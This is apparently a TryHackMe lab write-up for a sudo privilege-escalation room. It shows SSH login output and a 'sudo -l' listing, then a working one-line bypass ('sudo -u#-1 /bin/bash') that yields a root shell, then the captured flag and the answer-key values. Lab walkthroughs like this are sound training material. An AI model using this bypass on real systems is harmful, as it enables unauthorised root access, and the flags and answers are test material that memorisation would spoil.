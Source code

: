 ```yaml
---
custom_edit_url: null
---
```



## Task 1: Deploy!
### Deployed!
### No answer needed

&nbsp;

## Task 2: Security Bypass
### What command are you allowed to run with sudo?

Let's first connect to the machine using `ssh` and the following credentials:

```
┌──(kunal㉿kali)-[~]
└─$ ssh tryhackme@10.10.150.83 -p 2222
The authenticity of host '[10.10.150.83]:2222 ([10.10.150.83]:2222)' can't be established.
ED25519 key fingerprint is SHA256:4bgDOPxI7PFcv5CMfQYEkO7uBqKjLKhd7zZwmE8uwbQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.150.83]:2222' (ED25519) to the list of known hosts.
tryhackme@10.10.150.83's password: 
Last login: Fri Feb  7 00:14:41 2020 from 192.168.1.151
tryhackme@sudo-privesc:~$ 
```

Now, we can list out the command we are allowed to run as `sudo`.

```
tryhackme@sudo-privesc:~$ sudo -l
Matching Defaults entries for tryhackme on sudo-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /bin/bash
```
### Answer
```
/bin/bash
```

&nbsp;

### What is the flag in /root/root.txt?
We can find the exploit on the following page.

![1](https://github.com/Knign/Write-ups/assets/110326359/b3e3ece3-ea74-42c3-aefa-800116a4748f)

```
tryhackme@sudo-privesc:~$ sudo -u#-1 /bin/bash
root@sudo-privesc:~# 
```

We can now read the flag in `/root/root.txt`.
```
root@sudo-privesc:~# cat /root/root.txt 
THM{l33t_s3cur1ty_bypass}
```
### Answer
```
THM{l33t_s3cur1ty_bypass}
```
